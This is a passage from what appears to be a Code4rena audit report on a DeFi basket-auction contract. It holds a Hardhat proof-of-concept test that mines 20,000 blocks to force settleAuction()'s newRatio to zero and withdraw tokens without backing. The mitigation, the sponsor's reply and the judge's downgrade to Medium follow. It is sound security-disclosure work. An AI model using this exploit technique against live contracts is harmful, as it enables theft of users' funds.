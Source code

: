 ```js
        // increase the block number for `bondBlock - auctionStart` to be 20000.
        // When that's the case, the result of `newRatio` in `settleAuction()` 
        // is `0`. And that means `tokensNeeded` is 0. Which means,
        // we can take out all the tokens we want using the `outputTokens` array
        // without having to worry about basket's balance at the end.
        // The math changes depending on the settings of the factory contract or the
        // Basket contract. But, the gist is that you try to get newRatio to be 0.
        // The only values you can control as a attacker is the bondBlock after the auction
        // was started.
        for (let i = 0; i < 20000; i++) {
          await hre.network.provider.send("evm_mine")
        }
        await basket.approve(auction.address, '5000000000000000');
        await expect(auction.bondForRebalance()).to.be.ok;
        await expect(auction.settleAuction([], [], [], [UNI.address, AAVE.address], ["200720000000000000", "200120000000000000"])).to.be.ok;
      });
```

Again, this test uses the base values. The math changes when the settings change. But, it should always be possible to trigger this attack. The gap between auction start and bonding just changes.

### Recommended Mitigation Steps

*   Verify that `newRatio != 0`

**[frank-beard (Kuiper) confirmed and commented](https://github.com/code-423n4/2021-12-defiprotocol-findings/issues/74#issuecomment-1048137500):**
 > This is the reasoning for the minIbRatio value that the publisher sets when rebalancing weights. However we do need a check to make sure that `minIbRatio` is above 0.

**[0xleastwood (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2021-12-defiprotocol-findings/issues/74#issuecomment-1079813752):**
 > I don't think this deserves a `high` severity rating. There are a number of assumptions made:
>  - `minIbRatio` has not been set to an expected value.
>  - The bonded user must be able to wait a certain number of blocks, likely exceeding the maximum amount of time allowed to settle the auction. This is currently set to one day. However, I understand that there might be some time that passes before a user bonds tokens and when the auction started.
> 
> Because this issue is not directly exploitable, I think this behaviour fits the criteria of a `medium` severity issue.



***

## [[M-07] `Auction.sol#settleAuction()` Bonder may not be able to settle a bonded auction, leading to loss of funds](https://github.com/code-423n4/2021-12-defiprotocol-findings/issues/106)
_Submitted by WatchPug_

[Auction.sol#L97-L102](https://github.com/code-423n4/2021-12-defiprotocol/blob/205d3766044171e325df6a8bf2e79b37856eece1/contracts/contracts/Auction.sol#L97-L102)
